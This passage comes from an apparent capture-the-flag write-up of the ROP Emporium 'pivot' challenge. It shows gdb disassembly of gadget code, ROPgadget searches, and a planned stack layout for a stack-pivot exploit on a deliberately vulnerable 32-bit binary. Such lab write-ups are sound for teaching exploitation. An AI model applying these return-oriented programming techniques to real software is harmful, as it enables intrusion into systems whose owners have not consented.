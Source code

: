 So, looks like the program gives us the location of the heap that we are supposed to pivot the esp to... Pretty nice  
We'll send a ROP chain to handle task 2 (getting the flag), and then perform stack smashing to the stack.  
Maybe usefulGadgets will help us with this?  
Let's take a look in gdb:
```asm
gef➤  disass usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0804882c <+0>:	pop    eax
   0x0804882d <+1>:	ret    
   0x0804882e <+2>:	xchg   esp,eax
   0x0804882f <+3>:	ret    
   0x08048830 <+4>:	mov    eax,DWORD PTR [eax]
   0x08048832 <+6>:	ret    
   0x08048833 <+7>:	add    eax,ebx
   0x08048835 <+9>:	ret    
   0x08048836 <+10>:	xchg   ax,ax
   0x08048838 <+12>:	xchg   ax,ax
   0x0804883a <+14>:	xchg   ax,ax
   0x0804883c <+16>:	xchg   ax,ax
   0x0804883e <+18>:	xchg   ax,ax
````

Looking for more gadgets...

```sh
ubuntu@ubuntu:~/ropemporium/pivot$ ROPgadget --binary pivot32 | grep "mov"
0x080485a3 : mov ebx, dword ptr [esp] ; ret

ubuntu@ubuntu:~/ropemporium/pivot$ ROPgadget --binary pivot32 | grep "pop ebx"
0x080484a9 : pop ebx ; ret
```

Okay, should be able to set up the stack smash like this:

# Pivoting the Stack

So let's set up the stack accordingly:

	A's                                     40B
	_______________________________________
	fake ebp
	 = BBBB                                  4B
	_______________________________________
	eip  
 	 = address of ROP gadget		 4B
	 = pop eax; ret
	_______________________________________
	eax
	 = address to pivot to			 4B	
	_______________________________________
	eip2
	 = ROP gadget 				 4B
   	 = xchg   esp,eax
	______________________________________
